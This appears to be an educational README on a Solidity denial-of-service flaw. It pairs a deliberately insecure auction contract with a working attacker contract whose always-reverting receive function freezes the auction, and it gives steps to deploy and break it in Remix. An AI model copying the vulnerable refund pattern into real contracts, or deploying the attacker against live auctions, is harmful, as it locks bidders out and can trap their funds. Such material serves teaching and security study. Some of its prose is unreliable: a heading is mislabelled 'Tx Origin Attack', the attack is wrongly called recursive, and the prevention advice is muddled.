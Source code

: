 # What is DOS Attack?
 DoS is short for Denial of Service. Any interference with a Service that reduces or loses its availability is called a Denial of Service. Simply put, normal service requests that a user needs cannot be processed by the system. For example, when a computer system crashes or its bandwidth is exhausted or its hard disk is filled up so that it cannot provide normal service, it constitutes a DoS. In this implementaiton we have a contract called auciton which is vulnerable to DoS attack. 

```solidity 
 // SPDX-License-Identifier: MIT
pragma solidity 0.8.17;
// Denial of service attack, an attack can make fail line 13 by a fallback function that always fails and thus achieve "Denial of service"
// to keep his bidding position

// INSECURE
contract Auction {
    address payable public currentLeader;
    uint public highestBid;

    function bid() payable external {
        require(msg.value > highestBid);

        require(currentLeader.send(highestBid)); // Refund the old leader, if it fails then revert

        currentLeader = payable(msg.sender);
        highestBid = msg.value;
    }
}


``` 


And there is a attacker contact which  actually takes the smart contract address as the highest bidder and recursively call the function. 

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

interface Iauction{
        function bid() payable external;
}

contract attackt004{
         address public owner;
         Iauction public immutable auc;

        constructor (address  addr){
            auc = Iauction(addr);
            owner = msg.sender;
         }

        function attack() external payable {
            auc.bid{value: msg.value}();
        }

        receive() external payable {
                      revert();
        }                     
}

```

# How does it happen?
In Solidity, a DoS vulnerability can be simply understood as “unrecoverable malicious manipulation or uncontrolled unlimited resource consumption”, i.e. a DoS attack on an Ethereum contract that could result in massive consumption of Ether and Gas and, worse, render the original contract code logic unworkable.


 

# Example of Tx Origin Attack.
 For example, there are three checkout points in the supermarket. Normally, people queue up to pay by scanning the code at the checkout point. However, one day, there was an Internet problem, and all the customers at the checkout point failed to scan the code and pay. Or, when paying, customers deliberately make trouble, so that the following customers can not pay, which will also lead to the supermarket can not operate. We can see that there are internal ones, that can cause the DoS attacks

# How to prevent?
 For external operation mapping or array loop, need to limit the length; For the owner operation, the non-uniqueness of the contract should be considered, and the whole business should not be paralyzed because of a certain permission account. Based on the external call progress state need to except the handling of function calls, without any harm in general internal function calls, if the call is a failure will be back, and the external call is uncertain, we don’t know what the external caller wants to do if being attacked by the attacker, it may cause serious consequences.

# How to use our code: 
 - First you need to deploy the auction contract code in remix ide. 
 - Perform some biddign  and each time highest bidder will be changed.
 - Deploy the attack code putting the auction contact address as a parameter.
 - Then perform the bid using the attack  funciton from the attack file. Then the auction contract will be broken.  